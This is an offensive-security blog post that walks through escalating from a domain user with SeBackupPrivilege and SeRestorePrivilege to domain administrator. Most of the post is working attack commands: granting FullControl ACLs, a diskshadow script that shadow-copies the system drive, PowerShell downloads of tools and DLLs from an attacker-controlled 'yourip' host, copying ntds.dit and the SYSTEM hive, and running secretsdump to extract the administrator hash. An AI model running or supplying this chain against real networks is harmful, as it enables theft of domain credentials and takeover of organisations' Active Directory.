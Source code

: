[back](/blog)

### Glad to see you domain admin

What can domain users with "SeBackupPrivilege" and "SeRestorePrivilege" privileges do?

![Image](/img/sebackup_and_serestore/1.png)

![Image](/img/sebackup_and_serestore/2.png)

Such user can easily get the domain administrator access. Firstly, using these privileges, you can assign an ACL with the "FullControl" flag to any directory and any file in the system (does not apply to encrypted files by EFS), this means "full rights" to read and write.

```
Import-Module ./Acl-FullControl.ps1
Acl-FullControl -user FQDN\domainuser -path c:\users\administrator - get access to any path
```

However, the juiciest files SAM, SYSTEM, SECURITY and NTDS.DIT will remain inaccessible (despite what works "reg save HKLM...), even with full rights due to constant use. But using the diskshadow utility (functionality provided by the Volume Shadow Copy Service) will help you create a shadow copy of the local disk with ntds.dit, and further mimicking the backup program using WIN32 API calls will help move ndts.dit to your local drive. 

```
shad.txt: - do not forget to add spaces =)
_________

set context clientaccessible   
set context persistent   
begin backup   
add volume c: alias mydrive  
create  
expose %mydrive% z:  
_________

powershell.exe Invoke-WebRequest "http://yourip/shad.txt -OutFile ./shad.txt"
diskshadow.exe /s C:\temp\ntdscopy\shad.txt
```

![Image](/img/sebackup_and_serestore/5.png)

then

```
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeCmdLets.dll -OutFile ./SeBackupPrivilegeCmdLets.dll"
powershell.exe Invoke-WebRequest "http://yourip/SeBackupPrivilegeUtils.dll -OutFile ./SeBackupPrivilegeUtils.dll"

Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Set-SeBackupPrivilege

Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit - now u got ntds.git copy =)

reg save HKLM\system system.save
```

Then "secretsdump" will help you get the hash of the domain administrator from ntds.dit without much difficulty =)

```
python secretsdump.py -ntds /tmp/ntds.dit -system /tmp/system.save LOCAL
```

Glad to see you domain admin =)

Everything you need is here:

+ [Abusing-backup-operators-group](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group)
+ [Acl-FullControl.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1)
+ [SeBackupPrivilegeCmdLets](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/blog)